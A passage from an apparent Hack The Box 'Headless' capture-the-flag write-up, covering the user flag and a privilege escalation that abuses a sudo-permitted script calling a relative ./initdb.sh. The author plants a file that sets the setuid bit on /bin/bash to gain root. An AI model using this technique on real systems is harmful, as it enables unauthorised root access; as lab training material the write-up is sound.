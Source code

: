In the home folder, we find the user flag.

![User flag](/images/HTB-Headless/user-flag.png)

## Privilege Escalation

Running `sudo -l` we discover that this user can run `/usr/bin/syscheck`.

![sudo -l command](/images/HTB-Headless/sudo-l.png)


```shell
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

The script does a number of things such as checking for root privileges, checking available disk space etc. But our way to root privileges is via the `initdb.sh` file.

We look for the file with `find / -type f -name 'initdb.sh' 2>/dev/null` in order to modify it, but it is not on the system so we have to create it.

```
echo "chmod u+s /bin/bash" > initdb.sh
```
The command above creates the file `initdb.sh` containing the command `chmod u+s /bin/bash` which sets the setuid bit (`u+s`) on the `/bin/bash` executable.

The user `dvir` is allowed to run the command `/usr/bin/syscheck` with sudo privileges without providing a password.

---
